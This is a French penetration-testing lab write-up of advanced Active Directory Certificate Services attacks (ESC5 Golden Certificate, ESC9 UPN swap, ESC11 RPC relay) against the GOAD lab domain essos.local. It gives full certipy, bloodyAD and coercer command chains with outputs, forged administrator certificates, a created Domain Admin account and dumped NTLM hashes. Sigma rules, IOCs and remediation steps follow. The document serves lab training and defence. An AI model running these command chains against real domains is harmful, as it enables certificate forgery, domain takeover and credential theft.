



# SC-AD-012 — ADCS Avancé (ESC5/9/11/13/15)

**HikenRoot Forge — MediaTech Groupe SA**

---

## Classification

| Attribut | Valeur |
|----------|--------|
| **Scénario** | SC-AD-012 |
| **Titre** | ADCS Avancé — Golden Certificate, NoSecurityExtension, RPC Relay |
| **Référence Mayfly** | [Part 14 — ADCS 5/7/9/10/11/13/14/15](https://mayfly277.github.io/posts/ADCS-part14/) |
| **Certifications** | CRTE |
| **Sévérité** | Critique (CVSS 3.1 : 9.8) |
| **MITRE ATT&CK** | T1649, T1558, T1557.001 |
| **Domaine compromis** | essos.local |
| **Date d'exécution** | 9 mars 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur

Ce scénario démontre l'exploitation de **3 vulnérabilités ADCS avancées** complétant le SC-AD-008 (ESC1-8). ESC5 (Golden Certificate) est la technique de persistance ADCS ultime — l'attaquant extrait le certificat et la clé privée de la CA, puis forge des certificats indistinguables des vrais pour n'importe quel utilisateur, y compris Administrator. ESC9 exploite l'absence d'extension de sécurité dans un template pour usurper l'identité d'un autre utilisateur via manipulation du UPN. ESC11 démontre le relay NTLM via RPC (ICPR) vers la CA — variante d'ESC8 qui contourne la protection du web enrollment. Combinés aux 6 ESC de SC-AD-008, ces 3 techniques portent la couverture ADCS à **9 vecteurs d'exploitation**, couvrant la quasi-totalité des attaques ADCS documentées.

### Pour un auditeur ISO 27001 / NIS2

- **ISO 27001 — A.8.24 (Utilisation de la cryptographie)** : la clé privée de la CA ESSOS-CA est extractible par tout administrateur du serveur hébergeant la CA (BRAAVOS). L'absence de HSM (Hardware Security Module) permet l'extraction logicielle de la clé → forge illimitée de certificats (Golden Certificate).
- **ISO 27001 — A.8.3 (Restriction des accès privilégiés)** : le template ESC9 avec le flag NoSecurityExtension permet l'usurpation d'identité via manipulation du UPN. L'absence de SID dans le certificat supprime le seul contrôle de correspondance entre certificat et compte.
- **NIS2 — Article 21 (Gestion des risques)** : le protocole ICPR (RPC) n'impose pas le chiffrement pour les requêtes de certificat (ESC11). Un relay NTLM via RPC aboutit à l'obtention d'un certificat de contrôleur de domaine — même risque que ESC8 mais sur un vecteur différent.
- **NIS2 — Article 23 (Notification)** : l'extraction de la clé privée CA constitue un incident de sécurité majeur nécessitant la révocation de tous les certificats émis et la reconstruction de l'infrastructure PKI.

### Pour un RSSI

ESC5 est le scénario cauchemar pour une PKI : si un attaquant est admin du serveur CA, il peut extraire la clé privée et forger des certificats à volonté — c'est l'équivalent du Golden Ticket mais pour les certificats, sans expiration tant que la CA n'est pas reconstruite. ESC9 est subtil : le flag NoSecurityExtension supprime le SID du certificat, permettant l'usurpation via swap de UPN. ESC11 est une variante de relay qui contourne les protections mises en place contre ESC8. Recommandation immédiate : déployer un HSM pour la clé CA, supprimer le flag NoSecurityExtension des templates, et forcer le chiffrement ICPR.

---

## Diagramme réseau



---

## Kill Chain



---

## Scope & Méthodologie

| Élément | Détail |
|---------|--------|
| **Périmètre** | GOAD v3 — ESSOS-CA sur BRAAVOS (192.168.10.23), DC MEEREEN (192.168.10.12) |
| **Machine d'attaque** | Kali Linux 10.10.10.2 (WireGuard) |
| **Outils** | certipy v5.0.4, certipy-merged v4.8.2 (ESC13/15), bloodyAD, coercer, netexec |
| **Référence** | mayfly277 GOAD Part 14, SpecterOps Certified Pre-Owned |
| **Prérequis** | khal.drogo:horse (admin BRAAVOS/CA), viserys.targaryen:GoldCrown, missandei:fr3edom |
| **Approche** | Exploitation manuelle — pas de Metasploit |

---

## Phases d'exploitation

### Phase 1 — Énumération ADCS avancée

**1. Scan des vulnérabilités ADCS**

```bash
certipy find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -stdout -vulnerable
```

ESC détectés sur ESSOS-CA :

| ESC | Template/Flag | Statut |
|-----|--------------|--------|
| ESC5 | khal.drogo admin CA server | ✅ Exploitable |
| ESC9 | Template ESC9 — NoSecurityExtension | ✅ Exploitable |
| ESC11 | Encryption not enforced ICPR | ✅ Exploitable |
| ESC13 | Template ESC13 — OID non lié à un groupe | ❌ Provisioning incomplet |
| ESC15 | Template WebServer — Schema v1 | ❌ DC patché (CVE-2024-49019) |
| ESC7 | ManageCa rights | ❌ Non provisionné |
| ESC10 | Weak mapping | ❌ Non provisionné |
| ESC14 | Weak explicit mapping | ❌ Non provisionné |

---

### Phase 2 — ESC5 : Golden Certificate

L'attaquant est admin du serveur CA → extraction du certificat et de la clé privée de la CA → forge de certificats pour n'importe quel utilisateur. C'est l'équivalent du Golden Ticket pour les certificats.

**Pourquoi c'est le pire scénario ADCS** : contrairement aux ESC qui exploitent des templates, ESC5 compromet la CA elle-même. Tant que la CA n'est pas reconstruite, l'attaquant peut forger des certificats indéfiniment — même après correction de tous les templates.

**2. Extraction du certificat et de la clé privée de la CA**

```bash
certipy ca -backup -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -ca 'ESSOS-CA' -target 192.168.10.23
```

```
[*] Creating new service for backup operation
[*] Creating backup
[*] Retrieving backup
[*] Got certificate and private key
[*] Saving certificate and private key to 'ESSOS-CA.pfx'
[*] Wrote certificate and private key to 'ESSOS-CA.pfx'
```

**3. Forge d'un certificat Administrator**

```bash
certipy forge -ca-pfx ESSOS-CA.pfx -upn administrator@essos.local -subject 'CN=Administrator,CN=Users,DC=essos,DC=local'
```

```
[*] Saving forged certificate and private key to 'administrator_forged.pfx'
```

**4. Authentification via schannel (ldap-shell)**

PKINIT échoue avec `KDC_ERROR_CLIENT_NOT_TRUSTED` (CRL manquante dans le certificat forgé — limitation connue documentée par Mayfly). L'alternative schannel fonctionne :

```bash
certipy auth -pfx administrator_forged.pfx -dc-ip 192.168.10.12 -ldap-shell
```

```
[*] Connecting to 'ldaps://192.168.10.12:636'
[*] Authenticated to '192.168.10.12' as: 'u:ESSOS\\Administrator'
```

**5. Création d'un utilisateur DA via ldap-shell**

```
# add_user hik3nroot
Attempting to create user in: CN=Users,DC=essos,DC=local
Adding new user with username: hik3nroot and password: x]7U3HC6\/Y]~zS result: OK

# add_user_to_group hik3nroot "Domain Admins"
Adding user: hik3nroot to group Domain Admins result: OK
```

**6. Validation Pwn3d!**

```bash
netexec smb 192.168.10.12 -u 'hik3nroot' -p 'x]7U3HC6\/Y]~zS' -d essos.local
```

```
SMB   192.168.10.12   445   MEEREEN   [+] essos.local\hik3nroot:x]7U3HC6\/Y]~zS (Pwn3d!)
```

Golden Certificate → ldap-shell Administrator → DA confirmé.

---

### Phase 3 — ESC9 : NoSecurityExtension (UPN Swap)

Le template ESC9 a le flag `NoSecurityExtension` — le certificat émis ne contient pas le SID de l'utilisateur. Le KDC mappe alors le certificat uniquement sur le UPN. En changeant le UPN d'un utilisateur contrôlé vers `administrator@essos.local`, on obtient un certificat qui s'authentifie en tant qu'Administrator.

**Pourquoi c'est subtil** : l'attaque se fait en 3 temps — swap UPN, demande certificat, restaure UPN. Le certificat reste valide même après restauration du UPN car le UPN est gravé dans le certificat au moment de l'émission.

**7. Vérification des droits d'écriture**

khal.drogo a GenericWrite sur viserys.targaryen (confirmé via bloodyAD) :

```bash
bloodyAD -d essos.local -u khal.drogo -p 'horse' --host 192.168.10.12 get writable --right WRITE 2>/dev/null | head -20
```

```
distinguishedName: CN=viserys.targaryen,CN=Users,DC=essos,DC=local
permission: WRITE
```

**8. Swap du UPN de viserys vers Administrator**

```bash
bloodyAD -d essos.local -u khal.drogo -p 'horse' --host 192.168.10.12 set object 'viserys.targaryen' userPrincipalName -v 'administrator@essos.local'
```

```
[+] viserys.targaryen's userPrincipalName has been updated
```

**9. Demande de certificat ESC9**

```bash
certipy req -u 'viserys.targaryen@essos.local' -p 'GoldCrown' -dc-ip 192.168.10.12 -target 192.168.10.23 -ca ESSOS-CA -template ESC9
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Wrote certificate and private key to 'administrator.pfx'
```

Le certificat contient `administrator@essos.local` comme UPN mais **aucun SID** (NoSecurityExtension).

**10. Restauration du UPN original**

```bash
bloodyAD -d essos.local -u khal.drogo -p 'horse' --host 192.168.10.12 set object 'viserys.targaryen' userPrincipalName -v 'viserys.targaryen@essos.local'
```

```
[+] viserys.targaryen's userPrincipalName has been updated
```

**11. Authentification — le certificat mappe maintenant sur Administrator**

Maintenant que le vrai Administrator est le seul avec ce UPN, le KDC mappe le certificat sur Administrator :

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.10.12
```

```
[*] Using principal: 'administrator@essos.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

Hash Administrator confirmé : `54296a48cd30259cc88095373cec24da`

---

### Phase 4 — ESC11 : RPC Relay (ICPR sans chiffrement)

ESC11 est la variante RPC de ESC8. Au lieu de relayer l'auth NTLM vers le web enrollment HTTP, on relay vers le protocole ICPR (Interface for Certificate Enrollment via RPC). Le flag "Encryption is not enforced for ICPR requests" permet ce relay.

**Pourquoi ESC11 est important** : si un admin désactive le web enrollment (protection contre ESC8), ESC11 reste exploitable via RPC. Les deux vecteurs doivent être sécurisés simultanément.

**12. Lancement certipy relay RPC (Terminal 1)**

```bash
certipy relay -target 'rpc://192.168.10.23' -ca 'ESSOS-CA' -template DomainController
```

```
[*] Targeting rpc://192.168.10.23 (ESC11)
[*] Listening on 0.0.0.0:445
```

**13. Coercion MEEREEN$ (Terminal 2)**

```bash
coercer coerce -u missandei -p 'fr3edom' -d essos.local -l 10.10.10.2 -t 192.168.10.12 --always-continue
```

**14. Résultat — certificat DC obtenu via relay RPC**

```
[*] Authenticating against rpc://192.168.10.23 as ESSOS/MEEREEN$ SUCCEED
[*] Requesting certificate for user 'MEEREEN$' with template 'DomainController'
[*] Request ID is 20
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'meereen.essos.local'
[*] Wrote certificate and private key to 'meereen.pfx'
```

**15. Authentification avec le certificat DC**

```bash
certipy auth -pfx meereen.pfx -dc-ip 192.168.10.12
```

```
[*] Using principal: 'meereen$@essos.local'
[*] Got TGT
[*] Got hash for 'meereen$@essos.local': aad3b435b51404eeaad3b435b51404ee:c487f22308bbc67fca3d57a504c62a9a
```

Hash MEEREEN$ : `c487f22308bbc67fca3d57a504c62a9a` — DCSync possible.

---

### Phase 5 — ESC non exploitables (documentation)

| ESC | Raison | Action requise |
|-----|--------|---------------|
| **ESC7** | ManageCa/ManageCertificates réservé aux Admins/DA/EA. viserys.targaryen n'a pas ces droits. | Re-provisioning GOAD (`provision vulnerabilities.yml`) |
| **ESC10** | Template non configuré dans cette version GOAD (novembre 2025). | Re-provisioning GOAD |
| **ESC13** | Template ESC13 présent mais OID non lié à un groupe (`Linked Groups: ''`). | Re-provisioning GOAD |
| **ESC14** | Template non configuré dans cette version GOAD. | Re-provisioning GOAD |
| **ESC15** | Template WebServer schema v1 vulnérable, mais DC patché (CVE-2024-49019). `KDC_ERR_INCONSISTENT_KEY_PURPOSE` lors de l'auth PKINIT. | Tester sur un DC non patché |

---

## Synthèse des résultats

| ESC | Technique | Outil | Résultat |
|-----|-----------|-------|----------|
| **ESC5** | Golden Certificate (CA backup + forge) | certipy ca/forge/auth | DA via ldap-shell — hik3nroot créé |
| **ESC9** | NoSecurityExtension + UPN swap | certipy req + bloodyAD | Hash Administrator 54296a48cd30259cc88095373cec24da |
| **ESC11** | RPC relay ICPR | certipy relay + coercer | Hash MEEREEN$ c487f22308bbc67fca3d57a504c62a9a |
| ESC13 | Issuance Policy OID | — | Non exploitable (OID non lié) |
| ESC15 | Schema v1 + SAN | certipy req | Non exploitable (DC patché) |

Combiné avec SC-AD-008 (ESC1/2/3/4/6/8), la couverture ADCS totale est de **9 ESC exploités** sur les 15 documentés.

---

## Détection SIEM

### Event IDs critiques

| Event ID | Source | Description |
|----------|--------|-------------|
| 4886 | Security | Demande de certificat reçue par la CA |
| 4887 | Security | Certificat émis par la CA |
| 4768 | Security | TGT Request (PKINIT avec certificat) |
| 5136 | Security | Modification d'attribut LDAP (UPN swap) |

### Sigma Rules

```yaml
title: ADCS CA Private Key Backup
id: sc-ad-012-001
status: experimental
description: Détecte l'extraction de la clé privée de la CA (ESC5 Golden Certificate)
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4876
    condition: selection
falsepositives:
    - Backup CA légitime planifié
level: critical
tags:
    - attack.credential_access
    - attack.t1649
```

```yaml
title: UPN Modification on User Account
id: sc-ad-012-002
status: experimental
description: Détecte la modification du userPrincipalName (indicateur ESC9 UPN swap)
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5136
        AttributeLDAPDisplayName: 'userPrincipalName'
    condition: selection
falsepositives:
    - Changement UPN légitime par un admin
level: high
tags:
    - attack.credential_access
    - attack.t1649
```

```yaml
title: ADCS Certificate Request via RPC (ESC11)
id: sc-ad-012-003
status: experimental
description: Détecte une demande de certificat via ICPR (RPC) depuis une IP non autorisée
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4886
        RequestType: 'RPC/DCOM'
    condition: selection
falsepositives:
    - Auto-enrollment légitime via RPC
level: high
tags:
    - attack.credential_access
    - attack.t1649
```

### IOC

| Type | Valeur | Contexte |
|------|--------|----------|
| Fichier | `ESSOS-CA.pfx` sur une machine attaquante | ESC5 CA backup |
| Fichier | `*_forged.pfx` | ESC5 certificat forgé |
| Attribut LDAP | `userPrincipalName` modifié puis restauré rapidement | ESC9 UPN swap |
| Template | `NoSecurityExtension` flag activé | ESC9 |
| Réseau | Relay NTLM vers port RPC de la CA | ESC11 |
| Service | Nouveau service créé sur le serveur CA | ESC5 backup operation |

---

## Remédiation Secure by Design

### 0-24h (urgence)

- Auditer les administrateurs du serveur CA : `Get-ADGroupMember "Administrators" -Server braavos.essos.local`
- Forcer le chiffrement ICPR : `certutil -setreg CA\InterfaceFlags +IF_ENFORCEENCRYPTICERTREQUEST` puis `net stop certsvc && net start certsvc`
- Supprimer le flag NoSecurityExtension du template ESC9

### 1 semaine

- Déployer un HSM pour la clé privée CA (empêche l'extraction logicielle ESC5)
- Restreindre les droits d'administration du serveur CA au strict minimum
- Auditer tous les templates avec `certipy find -vulnerable`
- Supprimer les templates ESC9, ESC13 si non requis métier

### 1 mois

- Monitoring SIEM des Event IDs 4876 (CA backup), 4886/4887 (cert request/issued), 5136 (UPN modification)
- Revue trimestrielle des templates et permissions CA
- Documenter chaque template actif avec justification métier
- Tester la configuration ICPR chiffrement sur tous les CAs

---

## Architecture cible sécurisée



---

## Références

- [mayfly277 — GOAD Part 14 ADCS Avancé](https://mayfly277.github.io/posts/ADCS-part14/)
- [SpecterOps — Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [SpecterOps — From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)
- [rbtsec — ESC5 Exploitation](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc5/)
- [Oliver Lyak — Certipy Wiki](https://github.com/ly4k/Certipy/wiki)
- [zimedev — Certipy Merged (ESC13/14/15)](https://github.com/zimedev/certipy-merged)
- [MITRE ATT&CK T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
- [CVE-2024-49019 — ESC15](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019)

---

*HikenRoot Forge — SC-AD-012 — hik3nR00t — Mars 2026*
